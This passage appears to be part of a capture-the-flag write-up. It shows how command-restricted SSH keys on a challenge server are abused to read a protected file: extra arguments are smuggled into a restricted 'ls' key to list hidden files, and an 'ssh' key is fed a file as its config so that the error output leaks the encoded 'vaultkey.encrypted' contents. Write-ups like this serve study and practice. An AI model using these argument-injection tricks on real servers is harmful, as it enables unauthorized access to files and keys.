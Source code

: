 After a lot more enumeration, we can eventually find the ``.ssh`` directory with a bunch of SSH keys:<br>
``echo .ssh/*``
```
.ssh/authorized_keys .ssh/fenrir.echo.priv .ssh/fenrir.id.priv .ssh/fenrir.ls.priv .ssh/fenrir.pwd.priv .ssh/fenrir.ssh.priv
```

This is where it gets interesting. We are given an SSH key tied to a specific command of a user.
The only commands/keys we will need for the solution are ``ls`` and ``ssh``.

By connecting to the server with the ``ls`` key of the new user using ``ssh fenrir@xn--jttenettet-d6a.dk -p 2222 -i ls.priv`` we get a file listing with no usable files.
It is however, possible to pass arguments to this command by supplying them in a string like following:<br>
``ssh fenrir@xn--jttenettet-d6a.dk -p 2222 -i ls.priv " -la"``

This allows us to list hidden files.
By doing this we once again see a ``.ssh`` directory. We can list the contents of it using:<br>
``ssh fenrir@xn--jttenettet-d6a.dk -p 2222 -i ls.priv " .ssh -la"``

This returns the following interesting file:<br>
``vaultkey.encrypted``

In order to read files on the server, we can use the ``SSH`` command key. This takes an SSH config file as a parameter.
This command will print out the line contents of the files if it is not a valid config file. Knowing this, we can read ``vaultkey.encrypted`` with the following command:<br>
``ssh fenrir@xn--jttenettet-d6a.dk -p 2222 -i ssh.priv ".ssh/vaultkey.encrypted"``

This returns a lot of lines that look something like this:
```
.ssh/vaultkey.encrypted line 1: no argument after keyword "fuws2ljnijcuoskoebhvarkoknjuqicqkjevmqkuiuqewrkzfuws2ljnbjrdgqtmmjxe46tbimyx"
```

After cleaning up this output we get the following output:
```
fuws2ljnijcuoskoebhvarkoknjuqicqkjevmqkuiuqewrkzfuws2ljnbjrdgqtmmjxe46tbimyx
ewsynn2gi2sfifaucqkbijdtk5tcnvkucqkbifcwe3jzovnfcqkbifaucqkbifaueqkbifbgy52b
ifauczd2mmzgo5ddnyfe42cbifaucqlxivaucukbifavsrkborztmv3iobhtq4dfkvyuoolpn5vt
qk3voridkm3okj4hu4kmhavxay3kovzgk52bkzixkzcri5nfevkukzqquqsbgqxva532or3vg5kz
nzctaq3tifrew2coofcekzksn5jti3szo5the5cbmjwdsqtwli4wwtdbnrbewnslmjvwm4sugjxe
k3sroncu2ucokm3e6crvlbsxgutokvwgonl2pjrein3ekbytsmdtirdeuu2igzuwkwluj5kuinbx
krxtc5l2kzcfg3rqpbwe66dyoiyfi3lkpfetcutimnuhg6jljbkdsvaknrlgwvscmnfu2tkmlfxx
c4kyknvgsvbvknlgkrdppjjwcl2wm5feq4dblfwvg2dsgrzvcwkbnvzeuusfgbfde3clofkwwssj
n4ze6vcuofje64jvbizfc3zsie4uwwk2jjnfivjwliyvkmcqgfhdgv3qjrhgi3kmgu2wwvsyovlw
cz2ykbigcs2miriswr2hhfwu4nrykfsvevbuofgu6skrhfdfi4luoafdky2jkrvwevjuku4u45zx
in2xkrsdinrtmr32n5ldavlegbkvq2cjpbatss2kgnjuc6srpb3dq6kzgmzukrclo52u64dcinvu
6uczgjhfcts2m5tauvcdo5vwi32qg5wgw2zyijhgm2thjvsfemltgf2vm4lugb5eyysdorjvawdv
mu3fk6kxi5jhe3cif44xeucsjbyswstkmzxuymblozbc6vchim2ewcthk5mxuz3vn5idi2jyjngh
g53gk52eezslga4wsmllpfbxmqkhg5vhq4lcjfigyzsbifaum2kgf5wvg3cwmy2ww4cwifaucqkc
gnhhuykdgf4wgmqkivaucqkhijauyyspnrxwcvdwjnmgys3iozquwssqkbzhevblmq2tay3dgzus
6udrlbeto4jtonaumvkmnzkue3kvkzctcv3hkfhva6ryju3wgrlsbjwuu6coifzecr3zn5kgcz3y
jbvwcrlvjize2sbwg5iuonlgkfrdezs2imzhauktovuw2nkigyyds4dyjiyeyqseir5fk5lkovld
g4sfliyuuwkpmmfdqmtxfmzvintwmrgec6ctkvucw33onvgfi3cbfnhtansomjztcujqoa4u2wsu
onrwcokfgvxtq2kokvmvqslcjv3gqmbpku2vmwsgkfmeg2seimzaus2lofwda3zunmvvk3cym43e
2mdnoyyvsq2sgzlw2stln5qswtcfi5auu4lzkvje4q3eobjxc3ckinjuwttknmydm22uof2wi22l
jztvau3ni5jvocsvgfhw2zcwjzcdsvdegfyvg6syljuswzk2izldo3dnn5dhu6rsnfuxomcqnbuh
mwtkmv3eksdlkuvuw2senfcvausvgzzgczkyinctkrzrj5dfavakmnhxo4tsnbiwo3spnbztmrte
izegirsggrju2ukqknuwimdhjuye2yrpjvwu4olyif4xgtdkoflxo4cenize42svirlvssbqo5zu
usdbiqvtkwskbjiecvcygq2eiscvmrre4ytmmfzgitlzgj3xevlkge3w45lmjvwgq23bgvjc6l3b
piyfentwnfmtgnsdhfihe53ggb4go5kdn5dg2tjujryuik2joyfeg2jxjvedc4srlb4xiuczorne
2z3so5bhknbymfwxsrbvlb3ucqkbifgueqkbivaucqkhifbhgzbpkvguor3oo4ygywkrlevuq2sc
mrthoobtjvdaumzyjjqwik3ynzrwysluiu4eq4thkvlucy2nhayxeu2xnfyu4rrtgvgfan2cirau
uv3uou4vsmzrm53fq4dvmncesl2cnzfewukplf2e6v2kgjihucsjj4vuyy3lo55gurzqja4vasbu
pfvg62sljzygitjplf3g2rslgu2gsocumfifavdyof4ucyjygzcvm4tpfnwg4n2smjexawkfobkh
cn22obje6uykkbavsyjsozjtmm3hhezhozdskzmxqodekeytq23mkneha3dbkv3wkuclin3vutlt
```